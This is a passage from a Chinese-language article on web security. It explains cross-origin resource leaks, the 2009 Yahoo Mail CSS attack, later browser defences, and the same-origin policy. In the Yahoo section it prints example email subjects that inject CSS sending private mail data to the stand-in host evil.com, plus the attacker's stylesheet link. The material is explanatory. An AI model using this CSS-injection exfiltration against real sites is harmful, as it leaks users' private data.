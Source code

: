 如果上面的图片加载，我得到一个 load 事件。如果它没有加载，我将得到一个 error 事件。如果这取决于你是否登录，这会告诉我很多关于你的信息。如果不同用户图片的宽度和高度不同，我还可以读取图片的宽度和高度，**那这就会告诉我更多关于你的信息**。

对于 CSS，情况就更糟了，它有更多的功能，而且不会在解析错误时立即失败。2009年，雅虎邮箱被一个相当简单的漏洞攻击就是利用了 CSS 的这个漏洞。攻击者向用户发送一封主题包括 ');} 的电子邮件，随后又发送另一封主题包括 {}html{background:url('//evil.com/? :

```html
…
<li class="email-subject">Hey {}html{background:url('//evil.com/?</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">Yo ');}</li>
…
```

这意味着用户的一些私人邮件数据像被被夹三明治一样夹在 CSS 中被解析为 CSS 片段。然后，攻击者再诱导用户访问包含以下内容的页面:

```html
<link rel="stylesheet" href="https://m.yahoo.com/mail" />
```

而这个页面已经加载过 `yahoo.com` 的 cookie，CSS 解析并发送私人信息到上面 CSS 中的 `evil.com` 服务器。惊不惊喜?！

这还只是冰山一角。从浏览器漏洞到 CPU 漏洞，这些资源泄漏问题让我们头疼了几十年。

## “关进小黑屋”

很明显，上面的内容是 Web 设计中的一个错误，因此我们不再创建新的类似的 api。与此同时，在过去的几十年里，我们一直在尽我们所能地修补这些问题:

- 来自另一个 origin 的 CSS (下面我会给出 origin 的定义)现在需要带有 CSS `Content-Type`字段。不幸的是，很难对脚本和图片或[quirks模式](https://en.wikipedia.org/wiki/Quirks_mode)页面的CSS强行同样的要求，因为可能涉及到对web重要部分的破坏。
- 设置[头部字段`X-Content-Type-Options: nosniff`](https://fetch.spec.whatwg.org/#x-content-type-options-header) 让服务器说“喂!如果我没有发送正确的`Content-Type`的话,请不要让内容被解析为CSS或JS”
- 再后来，nosniff 规则被扩展,用来防止来自其他来origin的特定no-CORS响应类型，如HTML、JSON和XML (SVG除外)。这种保护被称为CORB。
- 再到最近，从站点A向站点B发送请求时，我们不再需要发送cookie了，除非站点b使用[SameSite cookie属性](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)。如果没有cookie，网站通常会返回“登出”界面，不会展示私人数据。
- Firefox和Safari又更进一步，尝试完全隔离站点（尽管目前两者的工作方式有很大不同）。

### 同源策略

早在1995年，Netscape 2 就推出了两个让人眼前一亮的新功能: LiveScript（也就是后来的 JavaScript ）和 HTML frames。Frame 允许让你将一个页面嵌入到另一个页面中，而 LiveScript 则同时可以与这两个页面交互。

Netscape 意识到这会带来安全问题。你肯定不希望一个非法的页面能够读取你银行页面的 DOM 吧？！因此他们决定只有在两个页面具有相同的 origin 时才允许跨框架的脚本(cross-frame scripting)。

![这是图片](./img/origin.png "palyground")

他们的想法是，拥有相同 origin 的网站那么更有可能拥有相同的所有者。但这并不是完全正确的，因为许多网站用url来划分内容，比如 `http://example.com/~jakearchibald/`，但这条分割线必须在某个地方画出来。
